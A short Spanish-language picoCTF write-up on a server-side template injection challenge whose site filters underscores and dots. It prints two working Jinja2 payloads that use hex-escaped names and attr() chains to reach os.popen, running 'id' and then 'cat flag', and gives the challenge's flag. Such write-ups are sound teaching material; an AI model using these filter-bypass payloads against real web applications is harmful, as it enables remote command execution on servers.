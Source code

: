 ## Descripción :
	I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.
## Solución :
Primero intente con los comandos que use en el reto SSTI1 pero estos no funcionario, asiq ue busque documentacion y habian otros comandos y habia info sobre que algunas paginas bloquean el uso de 
```
_ y .
```
y encontré codigo que no los usa 
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```
para encontrar el 'os' entonces cambie el id por 'cat flag' y obtuve la bandera 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
	
![[Pasted image 20250416192148.png]]
	picoCTF{sst1_f1lt3r_byp4ss_e964f71b}

